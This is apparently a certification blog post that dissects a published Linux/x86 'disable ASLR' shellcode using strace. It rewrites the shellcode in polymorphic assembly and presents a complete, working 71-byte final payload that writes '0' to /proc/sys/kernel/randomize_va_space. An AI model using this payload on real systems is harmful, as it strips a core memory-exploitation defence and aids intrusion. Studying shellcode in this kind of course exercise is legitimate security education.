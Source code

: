 _This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:_  
_ __<http://securitytube-training.com/online-courses/securitytube-linux-
assembly-expert/>_  
_ __**Student ID:** SLAE-885_  
_**Assignment number: **6.1_  
_**Github repo:** <https://github.com/abatchy17/SLAE>  _  
  
**_Note: A modified version has been published in exploit-db:[ https://www.exploit-db.com/exploits/41969/](https://www.exploit-db.com/exploits/41969/) (calls setruid first)_**  
  
In assignment 6, the requirement is polymorphing 3+ shellcodes off
shellstorm.org or exploit-db.com_, _which basically means modifying the code
so it doesn't look like the original yet has the same functionality. This is
the first post out of three.  
  
  

## Linux/x86 - Disable ASLR Shellcode (71 bytes)

First shellcode I will dissect is a disable ASLR one by Mohammad Reza
Ramezani, shellcode can be found [here](https://www.exploit-
db.com/exploits/36637/).  
  
Let's compile this code and instead of debugging it, we'll use strace tool  
  

    
    
    abatchy@ubuntu:~/Desktop/workspace$ gcc 36637.c -fno-stack-protector -z execstack -o 36637.out  
    abatchy@ubuntu:~/Desktop/workspace$ sudo su  
    root@ubuntu:/home/abatchy/Desktop/workspace# strace ./36637.out   
    execve("./36637.out", ["./36637.out"], [/* 26 vars */]) = 0  
    brk(0)                                  = 0x804b000  
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)  
    mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7fd8000  
    access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)  
    open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3  
    fstat64(3, {st_mode=S_IFREG|0644, st_size=79136, ...}) = 0  
    mmap2(NULL, 79136, PROT_READ, MAP_PRIVATE, 3, 0) = 0xb7fc4000  
    close(3)                                = 0  
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)  
    open("/lib/i386-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3  
    read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0P\234\1\0004\0\0\0"..., 512) = 512  
    fstat64(3, {st_mode=S_IFREG|0755, st_size=1763068, ...}) = 0  
    mmap2(NULL, 1768060, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xb7e14000  
    mmap2(0xb7fbe000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1aa000) = 0xb7fbe000  
    mmap2(0xb7fc1000, 10876, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xb7fc1000  
    close(3)                                = 0  
    mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7e13000  
    set_thread_area({entry_number:-1 -> 6, base_addr:0xb7e13940, limit:1048575, seg_32bit:1, contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0  
    mprotect(0xb7fbe000, 8192, PROT_READ)   = 0  
    mprotect(0x8049000, 4096, PROT_READ)    = 0  
    mprotect(0xb7ffe000, 4096, PROT_READ)   = 0  
    munmap(0xb7fc4000, 79136)               = 0  
    **open("/proc/sys/kernel/randomize_va_space", O_RDWR) = 3  
    write(3, "0\n", 2)                      = 2  
    _exit(0)                                = ?**  
    +++ exited with 0 +++  
    

  
  
Note: DO NOT run code directly without investigating it first and making sure
it's totally safe.  
  
So 3 calls are what matter to us:  
  
**1\. open("/proc/sys/kernel/randomize_va_space", O_RDWR)**  
**2\. write(3, "0\n", 2)**  
**3\. exit(0)**  
  
There seem to be room for improvement, so let's see if we can make this code
significantly smaller.  
  

## 1\. open("/proc/sys/kernel/randomize_va_space", O_RDWR)

  
Minor refactoring**.**  

    
    
    xor eax,eax  
    jmp filename  
    shellcode:  
    pop ebx         ; EBX now points to '/proc/sys/kernel/randomize_va_spaceX'  
    mov byte [ebx + 35],al  
    push byte 5  
    pop eax  
    push byte 2  
    pop ecx  
    int 80h  
    

We don't need O_RDWR permissions, but I tried making use of that with no
avail.  
  

## 2\. write(fd, "0\n", 2)

  
**1\. mov ebx, eax: **Since we don't care about EAX, an xchg eax,ebx is one byte less.  
  
**_2_. push byte 2 - pop edx:** ECX already contains 2, let's exchange them instead.  
  
**3\. jmp-call-pop:** Got rid of it and replaced it with a push '0'   
  

    
    
    xchg eax, ebx   ; One byte less than mov ebx, eax  
    push byte 4  
    pop eax  
    xchg ecx, edx   ; ECX already contains 2  
    push byte 0x30  
    mov ecx, esp    ; ECX now points to "0"  
    int 80h         ; EAX will now contains 1  
    

  

## **3\. Exit(0)**

  
Is it a big deal exiting with non-zero status? Not really, so let's not
nullify EBX (it currently contains the file descriptor).  
  
Can we do better? Yes! write() returns number of bytes written, which should
be 1 (we only wrote "0"), so we can exit directly!  
  

    
    
    int 80h         ; Yep, that's it  
    

  

## Final shellcode

  

    
    
    section .text  
    global _start  
      
    _start:  
      
    ;  
    ; open("/proc/sys/kernel/randomize_va_spaceX", O_RDWR)  
    ;  
    xor eax,eax  
    jmp aslr_file  
    shellcode:  
    pop ebx         ; EBX now points to '/proc/sys/kernel/randomize_va_spaceX'  
    mov byte [ebx + 35],al  
    push byte 5  
    pop eax  
    push byte 2  
    pop ecx  
    int 80h  
      
    ;  
    ; write(fd, '0', 1)  
    ;  
    xchg eax, ebx   ; One byte less than mov ebx, eax  
    push byte 4  
    pop eax  
    xchg ecx, edx   ; ECX already contains 2  
    push byte 0x30  
    mov ecx, esp    ; ECX now points to "0"  
    int 80h         ; EAX will now contains 1  
      
    ;  
    ; exit(0)  
    ;  
    int 80h         ; Yep, that's it  
      
    aslr_file:  
    call shellcode  ; Skips the filename and avoids using JMP  
    db '/proc/sys/kernel/randomize_va_spaceX'  
    

  
Shellcode size has been cut down to 71 bytes (13 bytes less than original
code).  
  
\- Abatchy

